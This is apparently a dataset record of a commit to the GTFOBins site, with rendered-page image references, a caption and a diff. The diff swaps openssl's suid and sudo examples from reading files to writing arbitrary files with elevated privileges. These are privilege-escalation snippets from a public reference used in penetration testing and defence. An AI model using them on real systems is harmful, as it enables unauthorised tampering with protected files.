

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openssl.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
openssl.md: replace examples in suid and sudo with file-write

```diff
--- a/_gtfobins/openssl.md
+++ b/_gtfobins/openssl.md
@@ -15,10 +15,10 @@ functions:
         openssl enc -in "$LFILE"
   suid:
     - code: |
-        LFILE=file_to_read
-        openssl enc -in "$LFILE"
+        LFILE=file_to_write
+        echo DATA | openssl enc -out "$LFILE"
   sudo:
     - code: |
-        LFILE=file_to_read
-        sudo openssl enc -in "$LFILE"
+        LFILE=file_to_write
+        echo DATA | sudo openssl enc -out "$LFILE"
 ---
```
